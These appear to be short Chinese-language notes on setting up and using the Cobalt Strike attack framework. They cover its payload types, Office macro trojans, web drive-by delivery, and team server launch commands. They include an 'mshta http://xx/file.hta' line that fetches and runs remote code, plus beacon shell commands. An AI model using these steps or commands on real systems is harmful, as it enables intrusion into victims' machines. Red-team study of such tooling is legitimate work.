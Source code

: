 https://mp.weixin.qq.com/s/F1H4ReV71gK7JeoYxV3n5g
https://github.com/k8gege/Aggressor/releases/tag/cs


## 工具栏

![](https://s2.loli.net/2022/05/18/ot2CiV7mMeKuLq5.jpg)

攻击
- Office木马, 生成后监制到docm
- 分阶段木马 - 无法选择中转监听器
- 无阶段木马

Web Drive-by:
- Manage 管理当前Team Server开启的所有web服务
- Clone Site 克隆某网站
- Host File 在Team Server的某端口提供Web以供下载某文件
- Scripted Web Delivery 为payload提供web服务以便于下载和执行
- System Profiler 用来获取系统信息:系统版本, Flash版本,浏览器 版本等

## 攻击类型
```bash
# 1. exe
# 2.hta
mshta http://xx/file.hta
```
## 使用
```ts
sleep 0
shell ipconfig
```
## installation
```bash
chomd 777 teamserver
./teamserver 192.168.159.130 pass
```

如果报错,设置内存
```bash
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Xms512M -Xmx1024M -jar cobaltstrike.jar
# jdk11 启动
```

# Article
[全网最全的Cobalt Strike使用教程系列-基础篇](https://mp.weixin.qq.com/s/4KvmV9cdyzPsYHtBlEKGFQ)
[干货|两个超实用的上线Cobaltstrike技巧！](https://mp.weixin.qq.com/s/jGwrVr0iotelS4KivC8pwA)